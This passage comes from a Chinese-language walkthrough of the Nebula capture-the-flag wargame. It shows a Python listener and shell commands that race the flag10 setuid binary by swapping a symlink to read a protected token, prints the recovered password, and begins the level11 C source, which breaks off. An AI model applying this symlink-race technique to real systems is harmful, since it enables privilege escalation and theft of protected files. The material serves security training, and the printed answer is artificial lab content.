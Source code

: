```python
    while True:
        data = tcpCliSock.recv(BUFSIZ)
        if not data:
            break
        if data == '.oO Oo.\n':
			print 'get it baby!'
			os.system('ln -fs /home/flag10/token /home/level10/token')
    tcpCliSock.close()
tcpSerSock.close()
```

退出后使用`python server.py`让脚本跑起来。这里需要注意的是，对于软连接使用了`-f`参数，这样可以强制覆盖已经存在的同名软连接文件。之后`Ctrl+Alt+F2`切换到TTY2，在level10家目录下执行：

```bash
touch fake_token
ln -s fake_token token
```

这样文件就伪造好了，然后执行flag10：

```bash
/home/flag10/flag10 ~/token 127.0.0.1
```

完毕后`Ctrl+Alt+F1`切回TTY1看结果，`615a2ce1-b2b5-4c76-8eed-8aa5c4015c27`，用这个作为密码登陆flag10并getflag即可。

这里需要留意的是，因为CPU的执行方式是时间片，因此每个进程只有在自己的CPU时间内才能执行相应的指令，也正是因为这个原因，指令的执行之间才有了等待，并有了其他程序执行的可能性。很可能当CPU执行速度过快的时候，你的py程序还没来得及修改软连接，flag10就已经执行到最后了，因此无法读取到正确的token。这时你可以多试验几次，或者想办法降低flag10的优先级（`nice`可以修改进程优先级），提高py脚本的优先级，以确保py脚本可以替换掉软连接。

# Nebula level11 #
> The /home/flag11/flag11 binary processes standard input and executes a shell command.
> 
> There are two ways of completing this level, you may wish to do both :-)
> 
> flag11会处理标准输入，同时执行一个shell命令。本关有两种方法。

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
    'A' + (random() % 26), '0' + (random() % 10), 
    'a' + (random() % 26), 'A' + (random() % 26),
    '0' + (random() % 10), 'a' + (random() % 26));
```